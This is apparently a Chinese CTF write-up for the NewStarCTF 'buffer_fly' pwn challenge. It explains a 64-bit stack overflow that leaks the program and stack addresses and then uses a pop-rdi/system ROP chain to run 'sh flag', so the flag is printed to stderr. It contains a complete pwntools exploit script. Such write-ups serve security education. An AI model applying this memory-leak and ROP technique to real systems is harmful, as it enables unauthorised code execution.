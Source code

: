 ```yaml
---
title: buffer_fly
date: 2023-01-02 19:54:26
categories: 
- pwn_wp
tags: 
- pwn
- stackoverflow
- linux_trick

---
```


NewStarCTF，利用了下linux中sh的小技巧
<!-- more -->

64位栈溢出，没开canary，其他都开了。

程序中有system，函数vuln中存在栈溢出漏洞。

```c
ssize_t vuln()
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  printf("give me your name: ");
  read(0, buf, 0x20uLL);
  printf("your name: %s\n", buf);
  printf("give me your age: ");
  read(0, buf, 0x20uLL);
  printf("your age: %s\n", buf);
  printf("you are a girl ?\nsusu give me your wechat number: ");
  read(0, buf, 0x40uLL);
  puts("waitting.....");
  sleep(1u);
  close(0);
  close(1);
  return write(2, "hhhhh", 5uLL);
}
```

buf的大小为0x20，有三次的输入机会，前两次都只能输入0x20，最后一次可以输入0x40。

**总体思路就是：先通过前两次输入泄露栈上的内容，最后一次栈溢出调用system函数，执行我们放在栈上的指令。**

因此我们需要泄露两个地址：程序基地址和栈地址。

在调试中可以发现，在buff+0x18的地方有一个nop指令的地址，输入0x18个字节即可泄露出该指令的地址，从而得到程序基地址；而栈地址我们可以通过输入0x20字节泄露出rbp得到。

之后通过pop rdi将“/bin/sh\x00”在栈上的地址（这里要算一下）送到rdi中，调用system函数即可。

然而没这么容易，在return之前有close(0)，close(1)两条指令，程序的输入流和输出流都被关闭了，我们即使get shell了也无法正常输入和输出，我们只能考虑把flag输出到stderr显示出来。

**而linux中有一个sh指令，sh命令是shell命令语言解释器，执行命令从标准输入读取或从一个文件中读取。如果读取的内容不是sh命令，那么就会报错，文本中的内容就会一起在stderr中输出。**

exp:

```python
from pwn import*
context(log_level='debug',os='linux',arch='amd64',timeout=1)
elf=ELF("./pwn")
libc=ELF("./libc-2.31.so")
#p=process("./pwn")
p=remote('node4.buuoj.cn',25713)

def debug():
	gdb.attach(p,"b main")
	pause()

padding=0x28

p.recvuntil('give me your name: ')
p.send('a'*0x18)
p.recvuntil('a'*0x18)
elf_addr=u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))-0x128b

p.recvuntil("give me your age: ")
p.send('a'*0x20)
p.recvuntil('a'*0x20)
stack_addr=u64(p.recvuntil('\n')[:-1].ljust(8,'\x00'))
buf_addr=stack_addr-0x30

print("[*]elf_addr: ",hex(elf_addr))
print("[*]stack_addr: ",hex(stack_addr))
print("[*]buf_addr: ",hex(buf_addr))
print("read: ",hex(elf.plt['read']))

#debug()
sys_addr=elf_addr+0x129d# 一开始的时候偏移找错了，找的应该是call system的地址，而不是system函数实际执行的地址。
ret=elf_addr+0x000000000000101a
pop_rdi=elf_addr+0x0000000000001423

p.recvuntil("you are a girl ?\nsusu give me your wechat number: ")
#payload='a'*0x8+p64(pop_rdi)+p64(buf_addr+0x30)+p64(sys_addr)+p64(buf_addr)+p64(leave)+"cat flag >&2"

payload="sh flag\x00".ljust(0x28,'a')+p64(pop_rdi)+p64(buf_addr)+p64(sys_addr)
p.send(payload)

p.interactive()
```